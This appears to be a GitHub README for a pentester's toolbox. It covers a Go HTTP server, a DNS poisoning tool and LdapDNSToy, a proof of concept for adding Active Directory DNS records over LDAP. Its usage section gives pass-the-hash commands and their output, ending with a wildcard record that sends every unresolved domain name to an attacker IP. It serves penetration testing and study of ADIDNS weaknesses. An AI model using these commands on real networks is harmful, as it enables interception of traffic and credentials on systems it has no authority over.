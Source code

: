 # Vault
This is just a place where I put simple scripts and notes to access them quickly.

## SimpleHTTPServer.go
This is what you may need when doing a pentest and Python is not there to help you!
As GO builds a portable file for many architectures, it is our saviour :)

Test it:
  $ go run SimpleHTTPServer.go 8080 ./
Build it:
  $ env GOOS=linux GOARCH=arm GOARM=7 go build SimpleHTTPServer.go

## SDPT (Simple DNS Poisoner Tool) 
Sniffes for DNS queries going through your attacker host and provides fake answers to the specified DNS type A queries. It also forwards other queries different than type A and those pointing to FQDN that are not specifically included within the fake list.

## LdapDNSToy
This simple PoC allows to insert DNS type A records on a Windows Domain DNS server via LDAP by means of a Domain User (without additional privileges) using Python. 
* The original idea can be read here: https://blog.netspi.com/exploiting-adidns/

*Note: This is just a PoC, so don't use it in production systems or do it under your risk.*

### Basic Usage:
**1. Adding a new DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

Host nodito.bransh.local not found: 3(NXDOMAIN)
root@kali:/#
```
Let's add it pointing to the attacker-controlled IP 10.x.x.111:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name nodito
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```
Wait for a few minutes and then try to solve it again:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

nodito.bransh.local has address 10.x.x.111
root@kali:/# 
```

**2. Adding a wildcard DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name \*
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```

Now, try to resolve any hostname such as unknown or trulyunknown and observe how they ALL point to the same attacker-controlled IP:
```
root@kali:/# host unknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

unknown.bransh.local has address 10.x.x.111
```
```
root@kali:/# host trulyunknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

trulyunknown.bransh.local has address 10.x.x.111
root@kali:/# 
```
